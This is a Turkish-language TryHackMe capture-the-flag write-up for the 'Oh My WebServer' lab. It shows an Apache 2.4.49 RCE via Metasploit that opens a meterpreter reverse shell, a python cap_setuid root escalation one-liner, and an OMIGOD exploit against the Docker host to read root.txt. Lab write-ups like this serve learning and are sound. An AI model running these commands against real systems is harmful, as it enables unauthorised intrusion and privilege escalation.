 # TryHackMe - Oh My WebServer

Merhabalar, bu yazımda sizlere tryhackme.com platformunda bulunan "Oh My WebServer" isimli makinenin çözümünü göstereceğim. İlk önce nmap aracını kullanarak makinede açık olan portları görüntüleyeceğim.

```markdown
> nmap -sVC --min-rate 1000 10.10.161.62

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-06 14:13 EDT
Nmap scan report for 10.10.161.62
Host is up (0.075s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
> 22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e0:d1:88:76:2a:93:79:d3:91:04:6d:25:16:0e:56:d4 (RSA)
|   256 91:18:5c:2c:5e:f8:99:3c:9a:1f:04:24:30:0e:aa:9b (ECDSA)
|_  256 d1:63:2a:36:dd:94:cf:3c:57:3e:8a:e8:85:00:ca:f6 (ED25519)
> 80/tcp open  http    Apache httpd 2.4.49 ((Unix))
| http-methods: 
> |_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.49 (Unix)
|_http-title: Consult - Business Consultancy Agency Template | Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.21 seconds
```

http methotlarından biri olan trace methodunun açık olduğunu ve bu methotun bir risk yarattığını belirtmiş ancak internette bunun bir önemli bir risk oluşturduğuna dair bir yazı göremedim. Bunun dışında apache httpd'nin 2.4.49 versiyonunu kullanıyormuş. Bu servisin 2.4.49 versiyonunda uzaktan kod yürütme zafiyeti bulunuyor.

```markdown
msf6 > search 2.4.49

Matching Modules
================

   #  Name                                          Disclosure Date  Rank       Check  Description
   -  ----                                          ---------------  ----       -----  -----------
   0  exploit/multi/http/apache_normalize_path_rce  2021-05-10       excellent  Yes    Apache 2.4.49/2.4.50 Traversal RCE
   1    \_ target: Automatic (Dropper)              .                .          .      .
   2    \_ target: Unix Command (In-Memory)         .                .          .      .
   3  auxiliary/scanner/http/apache_normalize_path  2021-05-10       normal     No     Apache 2.4.49/2.4.50 Traversal RCE scanner
   4    \_ action: CHECK_RCE                        .                .          .      Check for RCE (if mod_cgi is enabled).
   5    \_ action: CHECK_TRAVERSAL                  .                .          .      Check for vulnerability.
   6    \_ action: READ_FILE                        .                .          .      Read file on the remote server.


Interact with a module by name or index. For example info 6, use 6 or use auxiliary/scanner/http/apache_normalize_path
After interacting with a module you can manually set a ACTION with set ACTION 'READ_FILE'
```

Exploiti seçtikten sonra options komutunu kullanarak vermemiz gereken bilgileri görüyoruz ve `set isim değer` şeklinde bilgileri ekliyoruz. Devamında da run veya exploit komutunu kullanarak exploiti çalıştırabiliriz.

```markdown
msf6 exploit(multi/http/apache_normalize_path_rce) > set rport 80
rport => 80
msf6 exploit(multi/http/apache_normalize_path_rce) > run

[*] Started reverse TCP handler on 10.9.2.218:4444 
[*] Using auxiliary/scanner/http/apache_normalize_path as check
[+] http://10.10.161.62:80 - The target is vulnerable to CVE-2021-42013 (mod_cgi is enabled).
[*] Scanned 1 of 1 hosts (100% complete)
[*] http://10.10.161.62:80 - Attempt to exploit for CVE-2021-42013
[*] http://10.10.161.62:80 - Sending linux/x64/meterpreter/reverse_tcp command payload
[*] Sending stage (3045380 bytes) to 10.10.161.62
[*] Meterpreter session 1 opened (10.9.2.218:4444 -> 10.10.161.62:53798) at 2024-06-06 14:24:20 -0400
[!] This exploit may require manual cleanup of '/tmp/uycb' on the target

meterpreter > pwd
/bin
```

Sisteme başarılı bir şekilde giriş yaptım ve home dizini altında kullanıcı bayrağını almaya gittim. Ancak dizinde herhangi bir kullanıcı dizini yoktu. user.txt görüntüleyebildiğimiz hiçbir dizinin içerisinde yer almıyordu. Bu yüzden metasploitte bulunan exploit suggester modülünü kullandım. Her ne kadar bir uygun bir exploit bulduğunu söylese de exploit'i hiçbir şekilde çalıştıramadım. Ancak bu sayede kenarda yazan makinenin local ip adresini fark edebildim. Bulunduğum makine 172.17.0.2 adresine sahip. Mantıken 172.17.0.1 şeklinde bir makine de vardır diye düşündüm. O makine ile de ilgileneceğim ama öncelikle bu makinede yetki yükseltmem gerekiyor, /root dizininin içerisinde önemli bir bilgi olabilir.

```markdown
> /usr/bin/python3.7 = cap_setuid+ep

...
/usr/bin/python3.7 = cap_setuid+ep
```

![1](https://github.com/ronark7/writeups/assets/165813191/a5c32be4-b477-4e27-9f69-50e635f14389)

```
daemon@4a70924bafa0:/$ /usr/bin/python3.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
/usr/bin/python3.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id
id
uid=0(root) gid=1(daemon) groups=1(daemon)
```

/root dizini altında user.txt dosyası bulunuyor, buradan kullanıcı bayrağını aldıktan sonra sistemde biraz daha vakit öldürdüm. Ancak diğer makine için daha fazla bilgi çıkaramadım. Bu durumda ilk başta yaptığımız gibi bir port taraması daha gerçekleştirip diğer makineyi tanımaya çalışmalıyız. Metasploit'in içerisinde local ağda port taraması yapabilmek için bir modül bulunmuyor. Bu yüzden port taramasını yapabilmek için nmap'in ikili dosyasını indirip çalıştıracağım.

https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap

```markdown
./nmap 172.17.0.1 -p- --min-rate 10000

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2024-06-06 19:14 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for ip-172-17-0-1.eu-west-1.compute.internal (172.17.0.1)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.000029s latency).
Not shown: 65531 filtered ports
PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   open   http
5985/tcp closed unknown
5986/tcp open   unknown
MAC Address: 02:42:B0:6A:65:D0 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 20.16 seconds
```

Taramada nedense versiyon taraması gerçekleştiremiyorum. Her neyse bu çokta önemli değil 5986 numaralı porta uygun bir exploit buldum ve sisteme yükledim daha sonra ise bu exploitten faydalanarak karşı makineden root.txt dosyasını aldım.

https://github.com/CyberMonitor/CVE-2021-38648/blob/main/CVE-2021-38647.py

```markdown
# /usr/bin/python3.7 exploit.py -t 172.17.0.1 -p 5986 -c "cat /root/root.txt"
/usr/bin/python3.7 exploit.py -t 172.17.0.1 -p 5986 -c "cat /root/root.txt"
THM{************************}
```
